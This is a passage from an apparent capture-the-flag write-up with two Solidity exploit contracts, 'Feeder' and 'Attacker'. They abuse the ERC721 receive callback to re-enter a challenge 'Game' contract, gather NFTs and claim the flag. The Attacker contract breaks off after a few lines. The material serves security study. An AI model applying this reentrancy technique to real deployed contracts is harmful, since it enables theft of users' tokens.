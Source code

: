 To exploit this I developed 2 contracts. A feeder account is used for storing our NFTs while we want to get new ones and an Attacker contract to facilitate the whole attack and claim the flag in the end.

Feeder:
```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.12;
import "@openzeppelin/contracts/token/ERC721/ERC721.sol";
import "@openzeppelin/contracts/token/ERC721/IERC721Receiver.sol";
import "./Game.sol";
import "./Attacker.sol";

contract Feeder is IERC721Receiver
{
    Game public game;
    Attacker atk; 
    constructor(address _game)
    {
        atk = Attacker(msg.sender);

        game = Game(_game);
        game.join();

        if (game.totalSupply() == 9)
        {
            game.putUpForSale(6);
            game.putUpForSale(7);
            game.putUpForSale(8);
        }
        else if (game.totalSupply() == 12)
        {
            game.putUpForSale(9);
            game.putUpForSale(10);
            game.putUpForSale(11);
        }
    }

    function onERC721Received(
        address operator,
        address from,
        uint256 tokenId,
        bytes calldata data
    ) external returns (bytes4)
    {
        atk.getNext();
        return bytes4(keccak256("onERC721Received(address,address,uint256,bytes)"));
    }
}
```


Attacker:
```solidity 
// SPDX-License-Identifier: MIT
pragma solidity 0.8.12;
import "@openzeppelin/contracts/token/ERC721/ERC721.sol";
import "./Game.sol";
import "./Feeder.sol";

contract Attacker is IERC721Receiver
{
    Game public game;
    Feeder feed1;
    Feeder feed2;
```
